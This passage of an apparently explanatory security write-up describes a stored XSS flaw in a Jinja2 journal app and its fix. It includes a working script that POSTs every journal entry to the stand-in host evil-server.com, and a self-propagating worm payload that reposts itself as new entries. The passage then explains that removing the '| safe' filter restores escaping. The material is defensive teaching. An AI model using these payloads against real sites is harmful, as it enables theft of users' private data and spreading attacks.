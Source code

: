 #### Scenario 4: Data Exfiltration
```javascript
<script>
// Steal all journal entries
const entries = document.querySelectorAll('.journal-entry-card');
const data = Array.from(entries).map(e => e.innerText);
fetch('https://evil-server.com/journals', {
  method: 'POST',
  body: JSON.stringify(data)
});
</script>
```
**Result**: All your private journal entries are stolen!

#### Scenario 5: Worm Propagation
```javascript
<script>
// Auto-create malicious entries for all users who view this
fetch('/journal', {
  method: 'POST',
  headers: {'Content-Type': 'application/x-www-form-urlencoded'},
  body: 'focus=Daily&content=' + encodeURIComponent(document.scripts[0].outerHTML) + '&mood=good&energy=High'
});
</script>
```
**Result**: The XSS spreads to every user who views the infected entry!

### Why Our Fix Is Good

**Before (Vulnerable)**:
```html
<p>{{ entry.content.replace('\n', '<br>') | safe }}</p>
```
- The `| safe` filter tells Jinja2: "Trust this content, don't escape it"
- Browser sees `<script>` tags and executes them
- Any HTML/JavaScript is rendered as-is

**After (Secure)**:
```html
<p style="white-space: pre-wrap;">{{ entry.content }}</p>
```
- Jinja2 automatically escapes ALL HTML characters
- `<script>` becomes `&lt;script&gt;` 
- Browser displays it as text, doesn't execute it
- CSS `white-space: pre-wrap` preserves line breaks without HTML

**What Gets Escaped**:
- `<` → `&lt;`
- `>` → `&gt;`
- `"` → `&quot;`
- `'` → `&#39;`
- `&` → `&amp;`
